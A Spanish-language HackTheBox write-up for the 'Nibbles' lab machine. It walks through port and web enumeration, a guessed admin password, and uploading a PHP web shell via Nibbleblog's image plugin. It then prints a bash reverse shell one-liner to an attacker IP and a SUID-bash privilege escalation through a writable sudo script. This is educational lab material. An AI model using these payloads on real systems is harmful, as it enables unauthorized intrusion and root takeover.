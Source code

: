 ```yaml
---
title: HTB - Nibbles
published: true
categories: [Linux]
tags: [eJPT, Fácil]
---
```


<img src="/assets/HTB/Nibbles/nibbles.png">

¡Hola!
Vamos a resolver de la máquina `Nibbles` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Abusing Nibbleblog - Remote Code Execution via File Upload**
- **Abusing Sudoers Privilege [Privilege Escalation]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Nibbles`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.75
PING 10.10.10.75 (10.10.10.75) 56(84) bytes of data.
64 bytes from 10.10.10.75: icmp_seq=1 ttl=63 time=38.3 ms

--- 10.10.10.75 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 38.334/38.334/38.334/0.000 ms
```
Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```java
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.75 -oG allPorts

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p22,80 10.10.10.75 -oN targeted

PORT     STATE SERVICE VERSION
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Reconocimiento Web

* * *

Iniciamos el reconocimiento del servicio web con la herramienta `whatweb` la cual nos muestra información sobre las tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados.

```bash
❯ whatweb http://10.10.10.75
http://10.10.10.75 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```

Accedemos al servicio web y vemos un Hello World nada más. Si miramos el código fuente tenemos una pista en un comentario


<img src="/assets/HTB/Nibbles/home.png">



<img src="/assets/HTB/Nibbles/html.png">


Accedemos a la ruta revelada y nos encontramos con un Blog que corre bajo la plataforma `Nibbleblog`


<img src="/assets/HTB/Nibbles/blog.png">


En este puto vamos a realizar fuzzig para encontrar posibles rutas y archivos ocultos

```bash
❯ gobuster dir -u "http://10.10.10.75/nibbleblog/" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/11/14 17:02:43 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2987]
/sitemap.php          (Status: 200) [Size: 402] 
/content              (Status: 301) [Size: 329] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 328] [--> http://10.10.10.75/nibbleblog/themes/] 
/feed.php             (Status: 200) [Size: 302]                                                
/admin                (Status: 301) [Size: 327] [--> http://10.10.10.75/nibbleblog/admin/]  
/admin.php            (Status: 200) [Size: 1401]                                               
/plugins              (Status: 301) [Size: 329] [--> http://10.10.10.75/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]                                                 
/update.php           (Status: 200) [Size: 1622]                                               
/README               (Status: 200) [Size: 4628]                                               
/languages            (Status: 301) [Size: 331] [--> http://10.10.10.75/nibbleblog/languages/]
```

Accediendo a `admin.php` nos presenta un panel de login. En este caso en concreto tenemos que aplicar un poco de guessing. Tras varios intentos tratamos de acceder aplicando la password con el mismo nombre de la máquina para el usuario `admin`


<img src="/assets/HTB/Nibbles/admin.png">


Reconociendo el panel de admin localizamos la versión de Nibbleblog 4.0.3. Vamos a buscar con searchsploit vulnerabilidades asociadas

```bash
❯ searchsploit nibbleblog
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                                                                   | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                                                    | php/remote/38489.rb
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Tenemos un script en Ruby para Metasploit pero vamos a hacerlo de forma manual. Si examinamos el script vemos que se trata de una subida arbitraria de archivos aprovechando una vulnerabilidad en el plugin `My image`. Como sabemos que interpreta PHP vamos a tratar de subir un archivo malicioso el cual nos permita un RCE

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Con el script creado en PHP vamos al panel de admin y en la sección `Plugins` -> `My image` subimos nuestro script. Navegamos a la ruta anteriormente descubierta con GoBuster `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/` y localizamos nuestro script. Haciendo click en el script ganamos ejecución remota de comandos


<img src="/assets/HTB/Nibbles/image.png">



<img src="/assets/HTB/Nibbles/rce.png">


Para ganar acceso a la máquina sólo tenemos que ponernos en escucha en nuestro equipo por el puerto 443 y ejecutar el oneliner para bash `bash -i >& /dev/tcp/10.10.14.60/443 0>&1`

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
nibbler
```

La flag de usuario la podemos encontrar en el directorio home del usuario nibbler

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt 
d48e35d15e35ed618***************
```

### Escalada Privilegios

* * *

Enumeramos posibles privilegios de root asignados con `sudo -l`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Dentro de `/home/nibbler` nos percatamos de un comprimido `personal.zip`. Descomprimimos y nos crea `/personal/stuff/monitor.sh` el cual tenemos capacidad de escritura y podemos ejecutar como root. Sólo tenemos que añadir la línea `chmod u+s /bin/bash` para asignarle el privilegio SUID a la bash. Ejecutamos el script con sudo y mediante `bash -p` nos abrimos una bash con privilegios de root

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
```

En el directorio `/root` localizamos la flag

```bash
bash-4.3# cd /root
bash-4.3# ls
root.txt
bash-4.3# cat root.txt 
6a72974b2a8865445***************
```

Hemos completado la máquina **Nibbles** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Nibbles/pwned.png">
